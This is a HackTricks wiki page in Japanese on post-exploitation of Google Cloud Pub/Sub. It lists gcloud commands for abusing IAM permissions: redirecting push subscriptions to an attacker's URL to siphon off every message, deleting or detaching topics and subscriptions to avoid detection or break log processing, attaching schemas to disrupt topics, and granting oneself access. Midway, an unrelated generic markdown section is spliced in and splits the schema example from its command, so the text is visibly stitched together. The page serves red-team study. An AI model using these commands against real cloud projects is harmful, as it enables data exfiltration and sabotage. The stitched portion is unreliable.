 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Pub/Subに関する詳細情報は、以下のページを参照してください:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

トピックにメッセージを公開します。これは、**予期しないデータを送信**し、予期しない機能をトリガーしたり、脆弱性を悪用したりするのに役立ちます:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

検出を避けるために、サブスクリプションがメッセージを受信しないようにするのに役立ちます。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

サブスクリプションがメッセージを受信するのを防ぐために役立ちます。検出を避けるためかもしれません。\
サブスクリプションが付いているトピックでも削除することが可能です。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

この権限を使用して、トピックの設定を更新し、`--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`などを変更して妨害します。

### `pubsub.topics.setIamPolicy`

前述の攻撃を実行するための権限を自分に付与します。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Webサーバーで全てのメッセージを取得します：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

サブスクリプションを作成し、**メッセージをプル**するために使用します:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**サブスクリプションの削除** は、ログ処理システムや類似のものを妨害するのに役立つ可能性があります:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

この権限を使用して、メッセージがアクセス可能な場所（URL、Big Query table, Bucket）に保存されるように設定を更新するか、単にそれを妨害します。

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

以前にコメントした攻撃を実行するために必要な権限を自分に付与します。

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

スキーマをトピックにアタッチしてメッセージがそれを満たさないようにし、トピックを混乱させます。\
スキーマが存在しない場合は、新しく作成する必要があるかもしれません。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}

```markdown
## GCP Pub/Sub Post Exploitation

### Overview
GCP Pub/Subは、メッセージングサービスであり、アプリケーション間のメッセージの送受信を可能にします。攻撃者は、Pub/Subを悪用してデータを漏洩させたり、他の悪意のある活動を行うことができます。

### Enumeration
Pub/Subのリソースを列挙することで、攻撃者は利用可能なトピックやサブスクリプションを特定できます。以下のコマンドを使用して、Pub/Subのリソースを列挙します。

```bash
gcloud pubsub topics list
gcloud pubsub subscriptions list
```

### Data Exfiltration
攻撃者は、Pub/Subを使用してデータを外部に漏洩させることができます。例えば、機密データを含むメッセージを特定のトピックに公開し、外部のサブスクリプションで受信することができます。

### Persistence
Pub/Subを使用して持続性を確保することも可能です。攻撃者は、特定のトピックに悪意のあるメッセージを定期的に公開し、これをトリガーとして他の悪意のある活動を実行することができます。

### Cleanup
攻撃の痕跡を隠すために、攻撃者は使用したトピックやサブスクリプションを削除することが重要です。以下のコマンドを使用して、トピックやサブスクリプションを削除します。

```bash
gcloud pubsub topics delete <TOPIC_NAME>
gcloud pubsub subscriptions delete <SUBSCRIPTION_NAME>
```

### Conclusion
GCP Pub/Subは強力なメッセージングサービスですが、攻撃者に悪用される可能性もあります。適切なセキュリティ対策を講じることで、これらのリスクを軽減することが重要です。
```
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

これはスキーマを削除することで、スキーマに適合しないメッセージを送信できるようになるように見えるかもしれません。しかし、スキーマが削除されると、実際にはメッセージはトピック内に入らなくなります。したがって、これは**無意味**です。
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

以前にコメントした攻撃を実行するために必要な権限を自分に付与します。

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

これは、すべての未ACKメッセージのスナップショットを作成し、それらをサブスクリプションに戻します。攻撃者にとってはあまり有用ではありませんが、以下に示します:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください。
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリに。

</details>
{% endhint %}
